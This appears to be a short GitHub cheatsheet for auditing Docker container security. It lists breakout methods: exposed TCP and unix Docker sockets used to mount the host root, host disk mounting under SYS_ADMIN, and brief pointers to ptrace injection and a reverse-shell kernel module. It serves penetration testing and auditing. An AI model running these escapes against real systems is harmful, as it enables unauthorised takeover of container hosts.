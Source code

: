 # docker-vulns-cheatsheet
Cheatsheet for auditing container security

## Breakout
Methods for breaking out of docker containers

### Exposed Sockets

##### TCP
Default docker tcp port is 2375. check with `netstat -tulpn` Verify with `curl localhost:2375/version`

`docker run -it -H tcp://localhost:2375 -v /:/mnt IMAGE bash`

##### Unix
Unix socket is typically mounted at `/var/run/docker.sock`

`docker run -it -H unix:///var/run/docker.sock -v /:/mnt IMAGE bash`

### Privileged Container

##### SYS_ADMIN capability
Check for SYS_ADMIN capability with `capsh --print | grep cap_sys_admin`

Check host disks
`fdisk -l`

mount host disk 
`mount /dev/sda /mnt`

#### SYS_PTRACE capability
Check for SYS_PTRACE capability with `capsh --print | grep cap_sys_ptrace`

check for ptrace process injection

#### SYS_MODULE capability
Check for SYS_MODULE capability with `capsh --print | grep cap_sys_module`

create and insert a reverse-shell kernel module

